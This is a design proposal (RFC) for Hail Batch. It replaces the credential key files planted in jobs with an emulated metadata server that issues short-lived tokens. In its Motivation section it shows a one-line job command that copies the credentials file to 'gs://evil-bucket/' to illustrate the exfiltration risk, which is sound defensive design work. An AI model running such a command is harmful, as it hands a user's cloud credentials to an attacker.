 ===============================================
Keyless Cloud Authentication in Hail Batch Jobs
===============================================

.. author:: Daniel Goldstein
.. date-accepted:: 2024-02-01
.. implemented:: https://github.com/hail-is/hail/pull/14019
.. header:: This proposal is `discussed at this pull request <https://github.com/hail-is/hail-rfc/pull/12>`_.
.. sectnum::
.. contents::
.. role::

In a Hail Batch pipeline, all user code runs under one of two identities associated
with the underlying cloud platform. On the user's computer, code runs as the user's
human identity. Inside a Batch job running in the cloud, the job is running as a
Hail-managed identity created for that user on signup. We will refer to these
identities as the user's Human Identity and the Robot Identity, respectively.

In the current system, Batch jobs are given access to the user's robot identity
through a file planted in the job's filesystem containing the identity's
credentials. In GCP, the credentials are a GSA key file. In Azure, the credentials
are a username/password for a Microsoft Entra ID Service Principal. These credentials are created,
stored, and rotated by the Hail Batch system. 


Motivation
----------

Exposing long-lived credentials to user jobs poses a security risk,
as these credentials could be easily exfiltrated by the user or any malicious
code the user inadvertantly runs. The following is all that needs to run to
exfiltrate these credentials.

.. code-block:: python
   j.command('gcloud storage cp $GOOGLE_APPLICATION_CREDENTIALS gs://evil-bucket/')

Hail operators rotate GSA keys quarterly, so such an exfiltration could provide
a malicious actor access to all resources granted to the robot identity for up
to 90 days.

Cloud providers avoid persisting long-lived credentials on user machines through
the Metadata Server interface, an HTTP endpoint available on a
`link-local <https://en.wikipedia.org/wiki/Link-local_address>`_ address which can
issue access tokens for the identity assigned to the virtual machine. Available
metadata in GCP is described `here <https://cloud.google.com/compute/docs/metadata/predefined-metadata-keys>`_. This interface has the following advantages:

- Unlike long-lived keys, these tokens are short-lived (e.g. 1 hour), reducing
  the potential attack window following exfiltration.
- The metadata server can be configured only to issue certain scopes, so the
  operations a job can perform may be restricted. It is not possible to scope
  GSA keys and Microsoft Entra ID SP client secrets.

This proposal seeks to provide an emulated metadata server to Batch jobs and remove
jobs' dependence on long-lived credentials.

Removing this dependency also opens the door to future work of removing
long-lived credentials entirely from the system in favor of alternative approaches
to gaining access tokens from the cloud identity providers (discussed briefly 
in Inspiration & Alternatives).


Proposed Change Specification
-----------------------------

Batch jobs access credentials on the filesystem through the
``$GOOGLE_APPLICATION_CREDENTIALS``/``$AZURE_APPLICATION_CREDENTIALS``
environment variables (EVs). Under this change, the files and EVs will still be
available but their use will be deprecated in the documentation.

Currently, Batch uses firewall rules to block access to the metadata server for
user jobs, permitting users access would allow them to impersonate the batch worker.
This proposal would allow packets from jobs destined to ``169.254.169.254`` but
redirect those packets to a web server owned by the Batch Worker.
The Batch Worker can then use the
credentials for the job in question to generate access tokens on behalf of the
robot identity and distribute them upon request.

The following sequence diagrams illustrate how a Batch job obtains credentials
to access a cloud resource in the current system and under the proposed change.
The diagrams use GCP-specific terms and URLs, but the interaction is largely
the same in Azure.


Current System
==============

.. code-block:: text

    +-----+                                                +-----+              +-----+
    | Job |                                                | IAM |              | GCS |
    +-----+                                                +-----+              +-----+
       | --------------------------------------------------\  |                    |
       |-| Cook up request for access token using key file |  |                    |
       | |-------------------------------------------------|  |                    |
       |                                                      |                    |
       | https://www.googleapis.com/oauth2/v4/token           |                    |
       |----------------------------------------------------->|                    |
       |                                                      | ----------------\  |
       |                                                      |-| Validate key  |  |
       |                                                      | |---------------|  |
       |                                                      |                    |
       |                          Access Token scoped for GCS |                    |
       |<-----------------------------------------------------|                    |
       |                                                      |                    |
       | Access Token                                         |                    |
       |-------------------------------------------------------------------------->|
       |                                                      |                    | -----------------------------------\
       |                                                      |                    |-| Validate access token and scopes |
       |                                                      |                    | |----------------------------------|
       |                                                      |                    |
       |                                                      |               File |
       |<--------------------------------------------------------------------------|
       |                                                      |                    |


Proposed Model
==============

.. code-block:: text

    +-----+                                                                                +---------+                                              +-----+              +-----+
    | Job |                                                                                | Worker  |                                              | IAM |              | GCS |
    +-----+                                                                                +---------+                                              +-----+              +-----+
       |                                                                                        |                                                      |                    |
       | http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token      |                                                      |                    |
       |--------------------------------------------------------------------------------------->|                                                      |                    |
       |                                                                                        | --------------------------------------------------\  |                    |
       |                                                                                        |-| Cook up request for access token using key file |  |                    |
       |                                                                                        | |-------------------------------------------------|  |                    |
       |                                                                                        |                                                      |                    |
       |                                                                                        | https://www.googleapis.com/oauth2/v4/token           |                    |
       |                                                                                        |----------------------------------------------------->|                    |
       |                                                                                        |                                                      | ----------------\  |
       |                                                                                        |                                                      |-| Validate key  |  |
       |                                                                                        |                                                      | |---------------|  |
       |                                                                                        |                                                      |                    |
       |                                                                                        |                          Access Token scoped for GCS |                    |
       |                                                                                        |<-----------------------------------------------------|                    |
       |                                                                                        |                                                      |                    |
       |                                                                           Access Token |                                                      |                    |
       |<---------------------------------------------------------------------------------------|                                                      |                    |
       |                                                                                        |                                                      |                    |
       | Access Token                                                                           |                                                      |                    |
       |------------------------------------------------------------------------------------------------------------------------------------------------------------------->|
       |                                                                                        |                                                      |                    | -----------------------------------\
       |                                                                                        |                                                      |                    |-| Validate access token and scopes |
       |                                                                                        |                                                      |                    | |----------------------------------|
       |                                                                                        |                                                      |                    |
       |                                                                                        |                                                      |               File |
       |<-------------------------------------------------------------------------------------------------------------------------------------------------------------------|
       |                                                                                        |                                                      |                    |


It is worth emphasizing that the purpose of this feature is *not* to provide a
fully complete and compliant metadata server to Hail Batch. Rather, the aim is to provide the
minimum functionality necessary to allow Hail libraries and popular first-party
tools like ``gcloud`` and ``az`` the ability to obtain short-lived credentials without
exposing key files to user code. As such, an implementation may implement just the
endpoints necessary to run the below examples for at least one version of ``gcloud``/``az``
and all supported versions of ``hail``.


Examples
--------

Under the proposed change, the following Batch job commands should succeed:

.. code-block:: python

   j.command('gcloud storage ls <MY_BUCKET>')
   j.command('hailctl batch submit <MY_SCRIPT>')


Effect and Interactions
-----------------------

This change adds a method through which jobs can obtained short-lived access
tokens without directly accessing long-lived credentials. With such a solution
in place, we can eventually remove the long-lived credentials from job containers,
mitigating the risk of exfiltration.

So long as the firewall rules are correctly configured to redirect metadata traffic
to the Batch worker, there should be no adverse interactions with the existing
system as such traffic was previously forbidden.

It is worth noting that this change is motivated by ultimately removing key files
from jobs' filesystems. This means that in the future, any user jobs that explicitly
rely on the key file by directly referencing ``/gsa-key/key.json`` or
``$GOOGLE_APPLICATION_CREDENTIALS`` will break. However, such breakages should
be easy to fix largely by removing code, as the metadata server implementation
should be compatible with the default credential retrieval mechanisms of the GCP
and Azure client libraries. For example, the current Batch documentation includes
the following snippet to authenticate ``gcloud`` in a Batch job:

.. code-block:: bash

   gcloud -q auth activate-service-account --key-file=$GOOGLE_APPLICATION_CREDENTIALS


Users who use ``gcloud`` in their jobs use this to authenticate ``gcloud``
as their robot identity. This line would break without the key file present,
but with the metadata server in place ``gcloud`` does not need to be explicitly
authenticated, so this line can be safely deleted.


Inspiration & Alternatives
--------------------------

We can look to the Kubernetes project for examples of integrating with cloud
identity providers. In particular, we will examine `GKE's Workload Identity <https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#what_is>`_.
Workload identity allows pods to obtain credentials for GCP IAM identities. To
do so, GKE runs the `GKE Metadata Server <https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#metadata_server>`_
which functions similarly to what is described in this proposal.

The difference arises in how the metadata server fulfills the user's request for
an access token. Unlike in this proposal, GKE nodes do not hold IAM credentials.
Instead, it uses OIDC to "trade" a Kubernetes Service Account credential for a
`preconfigured IAM credential <https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#credential-flow>`_. This has the advantage of not needing to distribute IAM
credentials in GKE and enabling fine-grained mapping between GKE and IAM identities.

OIDC is not easily applicable in Hail Batch because Batch is at present not an
identity provider. There is no equivalent of Kubernetes Service Accounts that Hail Batch
provides for users, it simply manages identities from the underlying cloud provider.
One *could* in the future build an identity platform into the Hail system, which
combined with OIDC could provide seamless resource access between hail systems across
clouds, but that is not currently suffiently motivated and out of scope of this change.

Regarding secrets handling, we could remove the storage and distribution of key files in GCP by
using `IAM Service Account Impersonation <https://cloud.google.com/docs/authentication/use-service-account-impersonation>`_,
allowing the Batch Worker identity to request access tokens for robot identities
without holding key files. Such a change should be quite small, but outside the scope
of this RFC.
